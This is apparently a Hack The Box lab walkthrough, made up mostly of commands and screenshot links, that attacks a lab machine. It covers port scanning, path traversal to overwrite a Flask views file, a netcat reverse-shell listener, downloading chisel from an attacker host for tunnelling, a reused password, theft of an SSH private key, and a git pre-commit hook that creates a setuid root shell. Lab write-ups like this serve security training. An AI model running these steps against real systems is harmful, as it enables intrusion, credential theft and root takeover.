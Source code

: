 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bd23ea8e-8d62-47e6-b5dc-85b954b967a3)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.164/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5795739c-4a17-4504-8488-d1ace66b3196)


```
source.zip
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3fad636-4220-495e-bb1d-56e184b5896c)

![image](https://github.com/regarmulia/HTB/assets/33616880/d789400c-a783-427a-912f-402b6a3abb62)

![image](https://github.com/regarmulia/HTB/assets/33616880/259419d5-99bc-40eb-93a0-9564fe70068c)


```
http://10.10.11.164/upcloud
sample
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b4583816-0a36-4f81-9a89-397b094bae2e)


```
Views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/193201c3-0cea-4314-a186-70c17f23143e)


```
..//app/app/views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d1f0daa-1966-4db5-b468-26485f7bd868)

![image](https://github.com/regarmulia/HTB/assets/33616880/0b21c820-b480-440a-94f3-4b8412476caf)


```
nc -lvnp 443
http://10.10.11.164/0xdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3435d421-6ef9-4832-abe4-507d7b8c0462)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/187abd6f-a957-4a27-a578-4ec59fe32b48)


```
wget http://10.10.14.2:8000/chisel_1.9.0_linux_amd64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/710b1a2f-ba49-4b90-909f-c340735bdc2d)


```
/chisel_1.9.0_linux_amd64 server -p 8000 –reverse
./chisel_1.9.0_linux_amd64 client 10.10.14.2:8000 R:3000:172.17.0.1:3000
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f932b94-17a3-440f-946b-43b1885d3c3f)

![image](https://github.com/regarmulia/HTB/assets/33616880/261f4c2e-61ba-4924-b826-e91e62068968)


```
http://127.0.0.1:3000/
Soulless_Developer#2022
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4e06b02-b002-47d4-8f27-9874144fdb20)


```
http://127.0.0.1:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```
![image](https://github.com/regarmulia/HTB/assets/33616880/111d3d4a-6636-4f38-b2b0-24b20a9030ca)


```
ssh -i id_rsa dev01@10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/253a8ec4-8df2-4dfd-9717-acc2eaabe53f)


```
./pspy64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0370c502-059d-4b9c-8101-6b96ae788174)

![image](https://github.com/regarmulia/HTB/assets/33616880/7cca059c-705b-4052-b79d-67c0fd5a91fe)


```
/usr/local/bin/git-sync
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
ls -l /tmp/0xdf
/tmp/0xdf -p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/af675877-ebb5-4a65-8d51-3063e2488d76)
